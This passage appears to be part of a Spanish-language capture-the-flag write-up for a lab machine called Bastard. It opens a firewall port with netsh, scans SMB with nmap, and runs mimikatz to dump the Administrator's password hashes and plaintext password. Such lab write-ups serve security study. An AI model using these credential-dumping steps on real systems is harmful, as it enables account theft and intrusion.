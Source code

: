 ````bash
netsh advfirewall firewall add rule name="Puerto TCP 445" dir=in action=allow protocol=TCP localport=445

========================================================================================

❯ nmap -p445 --open -T5 10.10.10.9 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-23 23:27 CET
Nmap scan report for 10.10.10.9
Host is up (0.044s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
`````

Obtener contraseña de administrador en texto plano.

Para obtener la contraseña administrador usare ``mimikatz.exe``.

````bash
C:\Windows\Temp\priv>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK
========================================================================================
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 235310 (00000000:0003972e)
Session           : Interactive from 0
User Name         : Administrator
Domain            : BASTARD
Logon Server      : BASTARD
Logon Time        : 23/11/2022 10:56:36 μμ
SID               : S-1-5-21-2902706096-496989148-3956867535-500
	msv :	
	[00000003] Primary
	* Username : Administrator
	* Domain   : BASTARD
	* LM       : 94500c549f78c6603cf268b7a99d88bd
	* NTLM     : d3c87620c26302e9f04a756e3301e63a
	* SHA1     : 52601d7dcdcb24824e0e6ef8e98c7b133400ea34
	tspkg :	
	* Username : Administrator
	* Domain   : BASTARD
	* Password : keWNUkrIekw!
	wdigest :	
	* Username : Administrator
	* Domain   : BASTARD
	* Password : keWNUkrIekw!
	kerberos :	
	* Username : Administrator
	* Domain   : BASTARD
	* Password : keWNUkrIekw!
	ssp :	
	credman :
`````
